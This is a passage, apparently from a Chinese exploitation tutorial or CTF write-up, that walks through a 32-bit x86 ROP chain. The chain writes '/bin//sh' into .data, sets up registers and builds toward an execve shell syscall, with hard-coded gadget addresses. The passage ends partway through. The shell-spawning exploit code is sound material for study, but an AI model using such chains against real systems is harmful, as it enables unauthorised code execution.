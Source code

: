 ```bash
p += pack('<I', 0x080ea060) # address: @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'/bin'               # 4 字节
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret


思路：先用 pop edx 将目标地址放到 edx（指向 .data），再 pop eax 将要写入的 4 字节放到 eax，最后用 mov [edx], eax 把 eax 的 4 字节写入内存。

然后写入 //sh（注意双斜杠）到 .data+4：

p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret


'/bin' + '//sh' 组合成 "/bin//sh"（双斜杠是合法的，execve 能接受，常用于使字符串恰好对齐 8 字节）。

再写入一个 null 终止（4 字节 0）到 .data+8：

p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret


xor eax, eax 把 eax 清零，然后 mov [edx], eax 写 0，使字符串以 \x00 结尾（C 字符串终止符）。

总结：现在内存 0x080ea060 处存放 "/bin//sh\0"，正好适合作为 execve 的第一个参数（指针指向该字符串）。

设置寄存器准备 execve("/bin//sh", argv=NULL, envp=NULL)

execve 在 Linux x86 通过 int 0x80 使用 syscall number 11（即 eax = 11），参数如下：

ebx -> 指向 filename（字符串地址）

ecx -> argv（指针数组），这里传 NULL

edx -> envp，传 NULL

脚本依次设置这三个寄存器：

p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # ebx = @ .data  (pointer to "/bin//sh")

p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # ecx = @ .data + 8  (这里指向 NULL 写入处)

p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # edx = @ .data + 8  (同上, 指向 NULL)


ecx 和 edx 都被设为指向 .data+8，而我们之前已经在 .data+8 写入了 0（null），所以 ecx / edx 实际上相当于 NULL 指针（即 argv=NULL, envp=NULL）。

把 eax 设为 11（sys_execve 的 syscall 编号）

脚本用了先清零 eax（xor eax, eax），然后连续执行 11 次 inc eax：

p += pack('<I', 0x080492d3) # xor eax, eax ; ret
# 然后连续 11 次：
p += pack('<I', 0x0807a66f) # inc eax ; ret
```